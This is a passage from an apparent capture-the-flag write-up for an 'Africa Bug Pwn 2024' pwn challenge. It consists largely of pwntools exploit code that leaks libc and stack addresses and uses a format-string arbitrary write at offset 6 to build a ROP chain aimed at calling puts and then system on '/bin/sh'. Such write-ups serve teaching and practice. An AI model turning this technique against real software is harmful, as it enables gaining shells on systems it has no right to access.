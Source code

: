 ```python
.....SNIP....
# Calculate the libc addresses
libc.address= libc_leak - libc.sym['_IO_2_1_stdout_']
elf.address= main_leak - 0x1485 # (elf.sym.main)
system=libc.sym['system']
puts=libc.sym['puts']
binsh=next(libc.search(b'/bin/sh\x00'))
return_address =stack_leak - 0x320
pop_rdi=elf.address + 0x00000000000012b1

# Print addresses
print(f"[*] libc_leak : {hex(libc_leak)}")
print(f"[*] main_leak : {hex(main_leak)}")
print(f"[*] stack_leak : {hex(stack_leak)}")
print(f"[*] elf base : {hex(elf.address)}")
print(f"[*] pop_rdi : {hex(pop_rdi)}\n")
print(f"[*] libc base : {hex(libc.address)}")
print(f"[*] system : {hex(system)}")
print(f"[*] puts : {hex(puts)}")
print(f"[*] binsh : {hex(binsh)}")
print(f"[*] return_address : {hex(return_address)}")

```

![](/images/Africa_Bug_Pwn_2024_Writeups/leak_addresses.png)

The next step is to find the injection point which we can find to be `6` in the screenshot below

![](/images/Africa_Bug_Pwn_2024_Writeups/find_injection.png)

We can now create a function to use in our arbitrary writes, then write `puts(/bin/sh)` as follows.

> I like to test with `puts` first before calling system

```python
def write_payload(write_location,write_value):
	payload=(fmtstr_payload(6, writes={write_location:write_value})) 
	target.sendline(payload)
	target.recv()


# write pop_rdi
print(f"\n[*] Writing pop_rdi to  ret: {hex(return_address)}")
write_payload(return_address,pop_rdi)
# write shell
print(f"[*] Writing /bin/sh to  ret+8: {hex(return_address+8)}")
write_payload(return_address+8,binsh)
# write puts
print(f"[*] Writing puts to  ret+16: {hex(return_address+8)}")
write_payload(return_address+16,puts)
```

![](/images/Africa_Bug_Pwn_2024_Writeups/puts_call.png)
